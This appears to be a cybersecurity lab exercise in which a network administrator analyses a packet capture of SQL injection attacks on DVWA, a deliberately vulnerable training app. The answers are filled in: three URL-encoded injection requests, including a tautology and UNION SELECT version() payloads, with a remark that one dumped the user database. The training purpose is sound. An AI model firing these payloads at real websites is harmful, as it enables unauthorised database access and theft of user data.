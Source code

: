 ##Sniffing Web Attacks

**Scenario**

As a Network administrator, it is your job to detect and analyze any potential breaches in your company. Recently, one of your techs noticed what they thought to be an SQL injection attack on the company website. Your technician has saved and handed over to you the pcap file for further analysis. 

### Instructions

- Open the pcap in [http_dvwa_sqlinjection.pcapng](http_dvwa_sqlinjection.pcapng).

- Find the packets containing the SQLi payloads and record the three payloads you found. 
   **Hint**: Use a tool like URL decoder: <https://www.urldecoder.org/>

- Were the attacks successful? Support your conclusion with evidence.


GET /dvwa/vulnerabilities/sqli/?id=%25%27+or+%270%27%3D%270&Submit=Submit HTTP/1.1

successfully uses an encoded injection to dump user database

GET /dvwa/vulnerabilities/sqli/?id=%25%27+or+0%3D0+union+select+null%2C+version%28%29&Submit=Submit HTTP/1.1



GET /dvwa/vulnerabilities/sqli/?id=%25%27+or+0%3D0+union+select+null%2C+version%28%29+%23&Submit=Submit HTTP/1.1